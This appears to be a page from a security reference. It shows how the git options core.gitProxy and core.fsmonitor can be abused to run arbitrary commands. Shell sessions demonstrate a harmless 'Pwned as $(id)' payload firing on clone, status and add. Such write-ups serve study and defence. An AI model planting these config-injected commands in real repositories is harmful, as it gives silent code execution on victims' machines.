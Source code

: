 #### core.gitProxy

[core.gitProxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-coregitProxy) gives a command that will be executed when establishing a connection to a remote using the `git://` protocol

```bash
$ echo $'#!/bin/bash\necho \\"Pwned as $(id)\\">&2' > pwn.sh
$ chmod +x pwn.sh
$ git clone -c core.gitProxy="./pwn.sh" git://github.com/user/project.git
Cloning into 'project'...
"Pwned as uid=0(root) gid=0(root) groups=0(root)"
fatal: Could not read from remote repository.

Please make sure you have the correct access rights and the repository exists.
```

#### core.fsmonitor

The [core.fsmonitor](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corefsmonitor) option is used as a command which will identify all files that may have changed since the requested date/time.

In other words, many operations provided by the git will invoke the command given by `core.fsmonitor` to quickly limit the operation's scope to known-changed files in the interest of performance.

At least the following git operations invoke the command given by `core.fsmonitor`:

- `git status` used to show information about the state of the working tree, including whether any files have uncommitted changes
- `git add <pathspec>` used to stage changes for committing to the repo
- `git rm --cached <file>` used to unstage changes
- `git commit` used to commit staged changes
- `git checkout <pathspec>` used to check out a file, commit, tag, branch, etc.

For operations that take a filename, `core.fsmonitor` will fire even if the filename provided does not exist.

```bash
$ cd $(mktemp -d)
# initialized empty Git repository in /tmp/tmp.hLncfRcxgC/.git/
$ git init
# change core.fsmonitor so that it echoes a message to STDERR whenever it is invoked
$ echo $'\tfsmonitor = "echo \\"Pwned as $(id)\\">&2; false"' >> .git/config
$ cat .git/config
[core]
	repositoryformatversion = 0
	filemode = true
	bare = false
	logallrefupdates = true
	fsmonitor = "echo \"Pwned as $(id)\">&2; false"
# git-status
$ git status
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)
On branch main

No commits yet

nothing to commit (create/copy files and use "git add" to track)

# git-add
$ touch aaaa
$ git add aaaa
Pwned as uid=0(root) gid=0(root) groups=0(root)
Pwned as uid=0(root) gid=0(root) groups=0(root)

```